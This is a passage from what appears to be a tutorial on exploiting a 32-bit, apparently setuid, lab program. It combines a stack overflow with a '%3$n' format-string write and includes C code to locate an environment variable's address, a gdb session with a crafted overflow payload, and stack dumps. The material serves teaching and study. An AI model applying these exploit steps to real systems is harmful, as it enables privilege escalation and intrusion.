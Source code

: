 We can then calculate the address within a process virtual memory space at which the actual environment string value is mapped by saving the following program as `chk_cube_fmt.c`:

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	printf("%p\n", getenv("FMT"));
	return 0;
}
```

...and compiling it in a way that matches the `chk_cube_cmd` executable:

```
$ gcc -m32 -o chk_cube_fmt chk_cube_fmt.c -Wall
```

> **Note:** The address returned is *extremely* sensitive to the length of the program name (`argv[0]`, as invoked on the command line).

If you plan to run `chk_cube_cmd` without prefixing it with a path name, then also place `chk_cube_fmt` somewhere in `$PATH` (same place as `setuid`would likely work). Both program names have to be equally long when invoked, so that the pointer to the `"%3$n"` value of `$FMT` would end up at the same address in virtual memory across the two processes! We get the following
address for the pointer to `"%3$n"`:

```
$ chk_cube_fmt 
0xffffd7a3
```

> **Note:** This also depends on the size of your existing environment, so you may get a different value when following these instructions!

Finally, we need the virtual memory address at which the `here_ptr` pointer is located above the buffer. We can find that out (after adding `$FMT` to  the environment because modifying the size of the environment will affect subsequent placement of stack elements!) by running the `chk_cube_cmd` program in `gdb`, and dumping the stack looking for the value `0xcafebabe`:

```
$ gdb -q --args chk_cube_cmd \
  $(python2 -c 'print "A"*76 + "\xef\xbe\xad\xde" + "B"*16 + "\xbe\xba\xfe\xca"')
...
(gdb) r
...
(gdb) x/32z $esp
...
(gdb) 
0xffffd6e0:     0x7e11d213      0xe060dc03      0x691c75fe      0x00363836
0xffffd6f0:     0x00000000      0x00000000      0x7273752f      0x6962732f
0xffffd700:     0x68632f6e      0x75635f6b      0x635f6562      0x4100646d
0xffffd710:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd720:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd730:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd740:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd750:     0x41414141      0x41414141      0xef414141      0x42deadbe
(gdb) 
0xffffd760:     0x42424242      0x42424242      0x42424242      0xbe424242
0xffffd770:     0x00cafeba      0x4c454853      0x622f3d4c      0x622f6e69
0xffffd780:     0x00687361      0x3d544d46      0x6e243325      0x44575000
0xffffd790:     0x6f682f3d      0x752f656d      0x00726573      0x4e474f4c
0xffffd7a0:     0x3d454d41      0x72657375      0x47445800      0x5345535f
0xffffd7b0:     0x4e4f4953      0x5059545f      0x74743d45      0x3d5f0079
0xffffd7c0:     0x7273752f      0x6e69622f      0x6264672f      0x544f4d00
0xffffd7d0:     0x48535f44      0x3d4e574f      0x006d6170      0x454e494c
(gdb)
```
